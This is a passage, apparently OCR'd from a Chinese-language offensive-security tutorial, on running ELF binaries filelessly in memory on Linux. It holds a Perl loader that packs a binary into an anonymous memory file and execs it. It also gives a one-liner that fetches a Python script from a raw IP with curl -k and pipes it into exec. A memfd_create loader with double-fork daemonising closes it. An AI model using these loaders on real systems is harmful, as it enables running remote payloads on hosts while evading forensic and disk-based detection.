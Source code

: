 ```shell

# Load binary into anonymous file (i. e. into memory)
print "Writing ELF binary to memory...";
EOF
```



**第二部分**

```shell
perl -e '$/=\32;print"print \$FH pack q/H*/, q".(unpack"H*")."/\ or die qq/write: \$!/;\n"while(<>)' elfdemo >> elfload.pl
```



**第三部分**

```shell
cat >> elfload.pl <<EOF
print "done\n";

# Execute new program
print "Here we go...\n";
exec {"/proc/$$/fd/$fd"} "formsec"
        or die "exec: $!";
```



## 3 Python*

### 无文件一句话

```shell
curl -k -s "https://213.12.122.13:46379/ezNqxovBudSROFQgD3T26tmk7ar4ni/python/core.py" | python3 -c "for line in __import__('sys').stdin: exec(line)"
```

### 服务器端部署

1.示例加载器（部署在本地的elf内存加载器）

目标设备上访问本文件资源即可实现远程内存运行ELF。

```python
import ctypes
import os
binary = open('/usr/bin/ls','rb').read()
fd = ctypes.CDLL(None).syscall(319,"",1)
final_fd = open('/proc/self/fd/'+str(fd),'wb') 
final_fd.write(binary)
final_fd.close()
fork1 = os.fork()
if 0 != fork1: os._exit(0)
ctypes.CDLL(None).syscall(112)
fork2 = os.fork()
if 0 != fork2: os._exit(0)
os.execl('/proc/self/fd/'+str(fd),'argv0','-al')
```
